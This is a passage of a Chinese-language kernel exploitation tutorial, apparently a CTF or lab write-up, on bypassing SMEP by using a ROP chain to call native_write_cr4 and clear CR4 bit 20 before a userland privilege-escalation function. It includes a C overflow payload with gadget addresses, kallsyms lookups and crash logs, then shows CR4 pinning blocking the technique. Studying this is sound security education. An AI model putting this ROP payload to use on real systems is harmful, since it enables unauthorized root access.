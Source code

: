 记得我说过smep是由CR4寄存器来决定是否开启的，那么既然我们处于内核模式就有这个能力修改这个寄存器比如找到这样的gadget：`mov cr4, rdi`。这个指令来自函数：native_write_cr4()，他用他的参数会修改CR4寄存器，是一个**内核函数**。所以我第一个绕过思路就是利用rop构造一个这样的函数：`native_write_cr4(value)`，这个value就是用来置零CR4的第20位。

就像我们执行提权函数commit_creds()和prepare_kernel_cred()，我们可以在/proc/kallsyms中找到(记得先开启root):

```
/ # cat /proc/kallsyms | grep native_write_cr4
ffffffff814443e0 T native_write_cr4
```

我们在内核中构造rop链其实就像我们在用户程序做的一样。所以我们先利用rop链执行**native_write_cr4(value)**然后再返回到我们的用户区提权函数。我们还得先泄露CR4寄存器的值，来构造value，这一点可以通过制造内核错误来获取，比如此时开启了smep我们上一个exp执行就会出错：

```
[  254.447914] unable to execute userspace code (SMEP?) (uid: 0)
[  254.451109] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[  254.451238] CR2: 0000000000400ba4 CR3: 0000000006544000 CR4: 00000000001006f0
```

我们将清除第20位也就是0x100000，所以我们的value就是`0x6f0`.代码如下：

```
unsigned long pop_rdi_ret = 0xffffffff81006370;
unsigned long native_write_cr4 = 0xffffffff814443e0;
void overflow_nx(void)`{`
    unsigned n = 50;
    unsigned long payload[n];
    unsigned off = 16;
    payload[off++] = cookie;
    payload[off++] = 0x0;    //rbx
    payload[off++] = 0x0;    //r12
    payload[off++] = 0x0;    //rbp
    payload[off++] = pop_rdi_ret;    //ret
    payload[off++] = 0x6f0;
    payload[off++] = native_write_cr4;         //native_write_cr4(0x6f0)
    payload[off++] = (unsigned long)escalate_privs;

    puts("[*] Prepared payload");
    ssize_t w = write(global_fd, payload, sizeof(payload));

    puts("[!] Should Never be reached");    
`}`
```

对于gadget：`pop rdi ; ret`通过我们早就生成的**gadgets.txt**可以轻易找到，但是由于我们是寻找所有的gadgets可能有些处于**不可执行段**，所以有时候要多试试其他的。

那么理论上来说我们就可以获取root shell了，但是现实是残酷的，kernel任然会crash让我们更为疑惑的是crash的原因竟然是`smep`：

```
[    6.198588] unable to execute userspace code (SMEP?) (uid: 1000)
[    6.204110] CR2: 0000000000400ba4 CR3: 0000000006518000 CR4: 00000000001006f0
```

似乎我们的rop并没有起作用，CR4寄存器的第20位没有置零。为此我去google上查找native_write_cr4()的源码和一些资料来解释这种情况：

```
void native_write_cr4(unsigned long val)
`{`
    unsigned long bits_changed = 0;

set_register:
    asm volatile("mov %0,%%cr4": "+r" (val) : : "memory");

    if (static_branch_likely(&amp;cr_pinning)) `{`
        if (unlikely((val &amp; cr4_pinned_mask) != cr4_pinned_bits)) `{`
            bits_changed = (val &amp; cr4_pinned_mask) ^ cr4_pinned_bits;
            val = (val &amp; ~cr4_pinned_mask) | cr4_pinned_bits;
            goto set_register;
```